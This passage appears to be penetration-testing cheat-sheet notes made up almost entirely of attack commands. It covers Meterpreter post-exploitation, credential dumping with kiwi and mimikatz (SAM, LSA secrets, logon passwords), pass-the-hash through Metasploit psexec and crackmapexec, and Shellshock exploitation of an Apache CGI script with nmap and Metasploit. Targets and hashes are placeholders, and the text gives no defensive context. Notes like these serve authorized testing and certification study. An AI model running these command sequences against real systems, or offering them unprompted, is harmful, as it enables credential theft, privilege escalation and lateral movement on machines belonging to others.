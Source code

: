 ```bash
# METASPLOIT - Meterpreter
sysinfo
getuid
pgrep lsass
migrate <explorer_PID>
getprivs

# Creds dumping - Meterpreter
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# MIMIKATZ
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell

mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords

# PASS THE HASH
## sekurlsa::logonPasswords
background
search psexec
use exploit/windows/smb/psexec
set LPORT <LOCAL_PORT2>
set SMBUser Administrator
set SMBPass <ADMINISTRATOR_LM:NTLM_HASH>
exploit
```

```bash
crackmapexec smb <TARGET_IP> -u Administrator -H "<NTLM_HASH>" -x "whoami"
```

### Linux Exploitation

#### Shellshock

```bash
# BASH - APACHE
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <TARGET_IP>
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <TARGET_IP>
set TARGETURI /gettime.cgi
exploit
```
